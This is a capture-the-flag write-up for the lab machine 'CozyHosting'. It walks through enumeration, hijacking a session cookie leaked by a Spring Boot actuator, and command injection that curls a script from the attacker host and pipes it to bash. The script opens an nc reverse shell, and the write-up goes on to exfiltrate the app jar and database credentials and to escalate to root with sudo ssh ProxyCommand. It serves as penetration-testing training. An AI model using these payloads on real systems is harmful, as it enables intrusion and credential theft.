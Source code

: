 ## CozyHosting

### Lab Details 

- Difficulty: Easy
- Type:Web App, Cookie Hijack, Linux

#### Initial Foothold 
1. Scan the target
- Run nmap
```
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp    open     http    syn-ack     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
10207/tcp filtered unknown no-response
11512/tcp filtered unknown no-response
24704/tcp filtered unknown no-response
55229/tcp filtered unknown no-response
58922/tcp filtered unknown no-response
65225/tcp filtered unknown no-response
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19

```
2. Check web app (port 80) for vulnerability
- need to add domain name to `/etc/hosts`
- has login function
- scan for directories
```
$ ffuf -u http://cozyhosting.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt 
<snip>
logout                  [Status: 204, Size: 0, Words: 1, Lines: 1, Duration: 220ms]
admin                   [Status: 401, Size: 97, Words: 1, Lines: 1, Duration: 654ms]
login                   [Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 544ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 304ms]
index                   [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 428ms]
```
- scan for subdomain, no subdomain found
```
$ ffuf -w ./subdomains-top1million-20000.txt -u http://10.10.11.230 -H "HOST: FUZZ.cozyhosting.htb" -fc 301
```
- check for /.git and error page contains `whitelabel,` which is suggests that the application is using springboot framework
- scan for springboot specific directories
```
$ ffuf -u http://cozyhosting.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt 
<snip>
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 1038ms]
actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 1040ms]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 1039ms]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 1149ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 1151ms]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 1149ms]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 1051ms]
actuator/sessions       [Status: 200, Size: 98, Words: 1, Lines: 1, Duration: 1693ms]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 812ms]
<snip>
```
- /actuator/sessions endpoint might contain session info of logged in user
- upon on checking the endpoint user cookie `kanderson` can be found 
	```{"8EC5A695FEB440B689ED58B54544692E":"kanderson"}```
- we can try hijack user `kanderson`'s cookie by creating a new entry in cookie in developer mode
```
Name:      Value: 
JSESSIONID 516838480863572275B7355420CD29EC
```
- refresh the login page and we are logged in as `kanderson`

##### SSRF
- after login connection settings can be found at the bottom of the page
- we can try test for SSRF vunerabilities
-  both input field does not output any direct information from the server which mean the vulnerability might be blind
- we can test it with `curl` to see if the remote server make requests to attacker
- one thing to note is that based on the input restriction we can deduce that the hostname field is not vulnerable and username field does not allow spaces to be entered
![[session hijack.png]]
- since space is not allowed we could try using `${IFS}` to substitute for white space  in bash  
- below is an example of the payload 
```
test;curl${IFS}http://10.10.16.20:8000/script.sh|bash;

#where script.sh contains 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.20 4444 >/tmp/f
```
![[SSRF payload.png]]
#### Lateral Movement (If any)
- once we have received the reverse shell, running `whoami` shows we are user `app` and in the `/app` directory
- `/app` directory contains a file named `cloudhosting-0.0.1.jar`
- we can use `jar` command to de-archive the `jar` file
- need to transfer the file to attacker
```
## on remote
app@cozyhosting:/app$ nc -lvnp 9001 < cloudhosting-0.0.1.jar
nc -lvnp 9001 < cloudhosting-0.0.1.jar
Listening on 0.0.0.0 9001
Connection received on 10.10.16.20 47022

## on attacker
nc 10.10.11.230 9001 > received-file.txt
```
- once we have the `jar` file, we can either extract a single file or unzip it 
- after we have unzipped the file, we can search for files that may contain sensitive information such as `application.properties`
```
$ find ./ -name 'application.properties' 2>/dev/null
./BOOT-INF/classes/application.properties

$ cat ./BOOT-INF/classes/application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
- in `application.properties` contains postgresql connection detail
- connection string specifies that the postgres is running on localhost on port 5432
- we can perform local port forwarding to the attacker from remote and search for credentials
```
## on target
app@cozyhosting:/tmp$ /tmp/chisel server --socks5 --port 51234

## on attacker
$ ./chisel client 10.10.11.230:51234 127.0.0.1:5432:127.0.0.1:5432

$ psql -h localhost -U postgres               
Password for user postgres: 
psql (17.4 (Debian 17.4-1), server 14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off, ALPN: none)
Type "help" for help.

postgres=# \list
postgres=# \c cozyhosting
psql (17.4 (Debian 17.4-1), server 14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off, ALPN: none)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# TABLE users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```
- in the cozyhosting database contains the admin credential hash
- we can decrypt this using online tools like: https://hashes.com/en/decrypt/hash
#### Privilege Escalation
- login to remote with admin credential 
- run `sudo -l`
- user is able to ssh as root
- `gtfobins` has a command that spawns interactive root shell through ProxyCommand 
```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
```

#### Resources
- Springboot enum wordlist: https://git.selfmade.ninja/zer0sec/SecLists/-/blob/eee1651de7906112719066540ca2c5bf688cf9f2/Discovery/Web-Content/spring-boot.txt
- `gtfobins`: https://gtfobins.github.io/gtfobins/ssh/
#### Lesson Learned
- Scan with different wordlists when more information is present, i.e. springboot specific wordlists
